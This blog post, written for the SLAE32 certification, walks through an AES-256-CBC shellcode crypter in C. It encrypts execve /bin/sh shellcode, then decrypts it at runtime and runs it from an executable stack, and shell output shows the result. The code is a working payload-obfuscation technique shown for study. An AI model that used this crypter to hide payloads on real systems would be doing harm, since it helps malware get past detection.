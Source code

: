 ```yaml
---
title: "SLAE32 - Assignment #7 - Custom Crypter"
tags: ["slae32", "assembly", "shellcode", "exploit-development"]
---
```


## Introduction

This is the blog post for the 7<sup>th</sup> and final Assignment of the SLAE32 course, which is offered by <a href="https://www.pentesteracademy.com/course?id=3" target="_blank">PentesterAcademy</a>. The course focuses on teaching the basics of 32-bit Assembly language for the Intel Architecture (IA-32) family of processors on the Linux platform.

The purpose of this assignment is to encrypt the shellcode with an existing encryption schema and decrypt and execute it at runtime. The algorithm that was used is `AES` and the key length is `256 bits` (32 bytes). The block cipher mode used for AES is `CBC` (cipher-block chaining), which perfmorms `XOR` between the first plaintext block and the initialization vector before encrypting it. The implementation of `AES` can be found at this great repository: <a href="https://github.com/kokke/tiny-AES-c" target="_blank">Tiny AES in C</a>.

My code can be found in my Github: <a href="https://github.com/geobour98/slae32" target="_blank">geobour98's Github</a>.

## AES256 Crypter

In order to implement the crypter we need to download the following 2 files from the <a href="https://github.com/kokke/tiny-AES-c" target="_blank">Tiny AES in C</a> repository: <a href="https://github.com/kokke/tiny-AES-c/blob/master/aes.c" target="_blank">aes.c</a> and <a href="https://github.com/kokke/tiny-AES-c/blob/master/aes.h" target="_blank">aes.h</a>. By default, `AES128` is used, but there are options for `AES192` and `AES256`. The only changes that we have to do to use `AES256` are to comment the definition of `AES128` and uncomment the definition of `AES256`, as shown below in <a href="https://github.com/geobour98/slae32/blob/main/7_Custom_crypter/aes.h#L27" target="_blank">aes.h</a>: 

```c
//#define AES128 1
//#define AES192 1
#define AES256 1
```

The encryption happens on the shellcode extracted from `execve-stack`, which is described in previous blog posts and basically executes "/bin/sh". It and can be found below:

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

So, now the above shellcode is declared in the crypter program <a href="https://github.com/geobour98/slae32/blob/main/7_Custom_crypter/aesencrypt.c" target="_blank">aesencrypt.c</a>. It is very important to note that since we are using 32 byte blocks, then the size of the shellcode must be padded until we reach 32 bytes. The size of the original shellcode is `25`, so we need `7` more bytes that don't affect the functionality of the shellcode. That's why we pad the shellcode with `NOP` (`\x90`)  instructions. So, the shellcode becomes:

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90
``` 

Next, the `32` byte (256-bit) encryption key and the `16` byte initialization vector are declared.

```c
	unsigned char key[] = "0123456789abcdef0123456789abcdef";
	unsigned char iv[] = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10";
```

After that, we use the provided API to initialize the calling context with `AES_init_ctx_iv` and start encrypting with `AES_CBC_encrypt_buffer`.

```c
	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, code, shellcodeSize);
``` 

Then, we simple print the encrypted shellcode.

```c
	for (int i = 0; i < shellcodeSize - 1; i++) {
		printf("\\x%02x", code[i]);
	}
```

Also, we must include `aes.h` in `aesencrypt.c` in order to use the functions `AES_init_ctx_iv` and `AES_CBC_encrypt_buffer` and define the `CBC` mode.

```c
#include "aes.h"
#define CBC 1
```

The whole `C` program can be found below:

```c
#include <stdio.h>
#include <string.h>
#include "aes.h"
#define CBC 1

unsigned char code[] = 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90";

int main()
{
	size_t shellcodeSize = sizeof(code);

	unsigned char key[] = "0123456789abcdef0123456789abcdef";
	unsigned char iv[] = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, code, shellcodeSize);

	printf("AES Encrypted Shellcode: \n");

	for (int i = 0; i < shellcodeSize - 1; i++) {
		printf("\\x%02x", code[i]);
	}

	printf("\n");
}
```

## AES256 Decrypter

The generation of the encrypted shellcode will be shown later, but we assume it's the following:

```shell
\x11\xe8\xc6\x6a\x68\x79\x1e\x39\x20\xd9\xde\x1d\xfe\x08\x76\xec\xb4\x11\x2d\x59\xcd\xd8\xca\x5e\x61\x09\xba\xf2\x23\x3b\x44\x1e
```

So, now the above shellcode is declared in the decrypter program <a href="https://github.com/geobour98/slae32/blob/main/7_Custom_crypter/aesdecrypt.c" target="_blank">aesdecrypt.c</a>.

Again, we declare the encryption key and the initialization vector as previously. The initialization of the calling context happens again with `AES_init_ctx_iv` and the decryption starts with `AES_CBC_decrypt_buffer`.

```c
	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, code, shellcodeSize);
```

Then, the decrypted shellcode is printed to the screen and gets executed.

```c
	int (*ret)() = (int(*)())code;

    ret();
```

The whole `C` program can be found below:

```c
#include <stdio.h>
#include <string.h>
#include "aes.h"
#define CBC 1

unsigned char code[] = 
"\x11\xe8\xc6\x6a\x68\x79\x1e\x39\x20\xd9\xde\x1d\xfe\x08\x76\xec\xb4\x11\x2d\x59\xcd\xd8\xca\x5e\x61\x09\xba\xf2\x23\x3b\x44\x1e";

int main()
{
	size_t shellcodeSize = sizeof(code);

	unsigned char key[] = "0123456789abcdef0123456789abcdef";
	unsigned char iv[] = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, code, shellcodeSize);

	printf("Decrypted Shellcode: \n");

	for (int i = 0; i < shellcodeSize - 1; i++) {
		printf("\\x%02x", code[i]);
	}

	printf("\n\nExecuting Shellcode...\n");

	int (*ret)() = (int(*)())code;

        ret();
}
```

## Testing Crypter/Decrypter

In order to prove that the processes of encryption and decryption happen and the shellcode gets executed we first have to compile `aes.c` and `aesencrypt.c` to create the `aesencrypt` executable.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/7_Custom_crypter$ gcc aesencrypt.c aes.c -o aesencrypt
```

Then, we execute `aesencrypt` and get the AES encrypted shellcode:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/7_Custom_crypter$ ./aesencrypt 
AES Encrypted Shellcode: 
\x11\xe8\xc6\x6a\x68\x79\x1e\x39\x20\xd9\xde\x1d\xfe\x08\x76\xec\xb4\x11\x2d\x59\xcd\xd8\xca\x5e\x61\x09\xba\xf2\x23\x3b\x44\x1e
``` 

This is the encrypted shellcode that goes to `aesdecrypt.c`. Now we compile `aesdecrypt.c` and `aes.c` to generate `aesdecrypt`, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/7_Custom_crypter$ gcc -fno-stack-protector -z execstack aesdecrypt.c aes.c -o aesdecrypt
```

Finally, we execute `aesdecrypt` and get in a "/bin/sh" shell, where we execute commands like `ls` and `id`.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/7_Custom_crypter$ ./aesdecrypt 
Decrypted Shellcode: 
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90\x90\x90\x90\x90\x90\x90

Executing Shellcode...
$ ls
aes.c  aes.h  aesdecrypt  aesdecrypt.c	aesencrypt  aesencrypt.c  compile.sh
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$
```

## Summary

The encryption/decryption processes and the shellcode are working as expected!

This sums up the SLAE32 exam!

The training and the challenges are great and i hope i can get my hands on SLAE64 soon!

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **SLAE32 Blog Post**
>
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> 
> https://www.pentesteracademy.com/course?id=3
>
> ~~http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/~~
>
> **Student ID: PA-36167**
{: .prompt-info }
<!-- markdownlint-restore -->
